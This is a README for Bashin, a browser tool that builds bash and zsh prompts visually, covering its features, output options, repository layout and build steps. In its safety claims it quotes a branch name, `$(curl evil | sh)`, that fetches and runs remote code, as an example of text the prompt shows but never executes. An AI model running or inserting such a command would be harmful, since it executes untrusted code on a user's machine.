

# Bashin

**Build the prompt you look at all day.** Bashin is a visual prompt generator for bash and zsh: drag elements together, watch the result render in a real terminal emulator, and copy fast, safe code for `~/.bashrc` or `~/.zshrc`. Themed with Catppuccin — Mocha by default, Latte in light mode.

**Live site:** https://cardondev.github.io/bashin/



## The site

### Builder

- **37 elements** — username, hostname, SSH indicator, OS name or icon, directory (full, last *N* folders, fish-style, current folder, relative to the git repo), git branch and status, exit status with signal names (`INT`, `NOTFOUND`), command duration, background jobs, history and command numbers, time and date in any `strftime` format, Python venv/conda, Node.js, Kubernetes context, AWS profile, Docker context, Terraform workspace, Nix shell, tmux session, container, shell level, load average, IP address, environment variables, command output, window title, plus text, symbols, new lines, fills and groups.
- **Styling** — text and background colors from the palette, the terminal's 16 ANSI colors, the 256-color cube or any hex value; bold, dim, italic, underline, blink, reverse, strikethrough, overline; separate styles for root and for "the last command failed"; prefix/suffix text; show-only-when rules (after an error, as root, over SSH…).
- **Layouts** — multi-line prompts, full-width rules, right-aligned segments and right prompts, conditional groups that hide with their contents, and powerline joins in nine styles (arrows, capsules, rounded, slants, flames, pixels, ice, fade blocks).
- **Editing** — drag and drop from the library, click any part of the live prompt to edit it, keyboard reordering, undo/redo, a ⌘K command palette, and an importer that turns an existing `PS1` or zsh `PROMPT` back into elements.

### Live preview

The preview is a small terminal emulator fed with exactly the bytes the shell would print, so wrapping, wide glyphs, powerline separators and right prompts look the way they will in your terminal. Switch the situation — exit codes, clean/dirty/rebasing repos, root, SSH, virtualenvs, kube contexts, slow commands — or play the scripted demo session and watch the prompt react to each command.

### Output

- **bash or zsh**, as a snippet or as a one-paste installer.
- **24-bit, 256 or 16 colors**, or **auto**, which picks the right table at startup from `$COLORTERM`/`$TERM`.
- A **cost meter** showing processes forked per prompt and the oldest bash that runs it.
- **Fast:** the git branch, stash and rebase/merge state are read straight from `.git`, so there are no forks outside repositories and a single bounded `git status` inside one; the kube context comes from the kubeconfig, not `kubectl`.
- **Safe:** directory names, branch names and variables are displayed, never executed — a branch called `$(curl evil | sh)` is just text.
- Generated prompts were checked cell by cell against real bash 5 and zsh during development, and every preset runs under macOS's bash 3.2.

### Gallery, palettes and Learn

- **32 presets**, including the twelve NovaShell prompts (maxprompt, maxgit, maxpower, fancy, nova, dev, pico, classic, matrix, retro, lowkey, bare), prompts inspired by Pure, Starship, Agnoster, powerlevel10k, Spaceship, fish and oh-my-zsh, distro defaults, and Bashin originals.
- **23 palettes** — Catppuccin (Mocha, Macchiato, Frappé, Latte), Rosé Pine, Dracula, Nord, Gruvbox, Tokyo Night, One Dark, Solarized, Everforest, Kanagawa, Monokai, Ayu, xterm, green phosphor and amber CRT. Colors are semantic, so changing the palette re-themes the whole prompt.
- **Share links** carry the whole prompt in the URL; prompts can also be saved in the browser.
- **Learn** explains how prompts are drawn, the anatomy of an escape sequence, color depths and powerline joins, with an escape reference for bash and zsh.

Everything runs in the browser; nothing is uploaded.

## The repository

```
.
├── index.html                     page shell, metadata and theme bootstrap
├── public/                        favicon, touch icon, social image, web manifest
├── src/
│   ├── components/                React UI: builder, preview, gallery, learn, output
│   ├── data/                      presets, palettes, Nerd Font glyph catalog
│   ├── lib/                       prompt engine (see below)
│   ├── store/                     editor state, undo history, saved prompts
│   ├── assets/fonts/              Nerd Fonts symbol subset and its license
│   ├── index.css                  Tailwind setup and the Catppuccin theme
│   └── main.tsx                   entry point
├── package.json · package-lock.json
├── tsconfig*.json · vite.config.ts
└── LICENSE
```

### How the prompt engine works

```
prompt document ──compile──▶ IR (lines of ops) ──┬──▶ JS evaluator ──▶ ANSI ──▶ terminal emulator ──▶ preview
                                                 ├──▶ bash generator ──▶ ~/.bashrc
                                                 └──▶ zsh generator  ──▶ ~/.zshrc
```

| File | Role |
| --- | --- |
| `src/lib/elements.ts` | The element catalog: defaults, editor fields, and how each element compiles |
| `src/lib/providers.ts` | Runtime values (git, path, venv, kube, duration…) with matching JS, bash and zsh implementations |
| `src/lib/compile.ts` | Document → IR: visibility rules, root/error styles, groups, powerline segments, fills |
| `src/lib/evaluate.ts` | IR + preview scenario → the exact bytes the shell would print |
| `src/lib/term.ts` | A small xterm-compatible emulator that draws the preview |
| `src/lib/gen/shell.ts` | IR → bash or zsh: a static `PS1` when possible, otherwise a prompt function |
| `src/lib/import.ts` | `PS1` / `PROMPT` → editable elements |

### Built with

Vite, React, TypeScript, Tailwind CSS, Zustand (+ zundo), dnd-kit, Radix UI, cmdk, Shiki, Lucide, Simple Icons, `@catppuccin/palette`, Inter and JetBrains Mono.

### Working on it locally

Requires Node 20.19 or newer.

```bash
npm install
npm run dev              # dev server at http://localhost:5173
npm run build            # production site in dist/
npm run preview          # serve dist/ locally
npm run build:portable   # one self-contained dist-portable/index.html that opens from disk
```

The build uses relative paths, so `dist/` works from any folder or sub-path. To publish it, see [DEPLOY.md](DEPLOY.md).

## Credits

- Prompt styles, the fork-free git helper and the "few forks per prompt" rule come from **NovaShell**.
- [Catppuccin](https://catppuccin.com) — palette and site theme (MIT).
- [Nerd Fonts](https://www.nerdfonts.com) v3.5.1 — a 292-glyph subset of Symbols Nerd Font Mono is bundled; see `src/assets/fonts/NERD-FONTS-LICENSE.txt`.
- Theme palettes from their official terminal ports; sources are linked in `src/data/palettes-extra.ts`.
- [Lucide](https://lucide.dev), [Simple Icons](https://simpleicons.org), [Shiki](https://shiki.style).
- Inspired by [bash-prompt-generator.org](https://bash-prompt-generator.org).

## License

MIT — see [LICENSE](LICENSE).
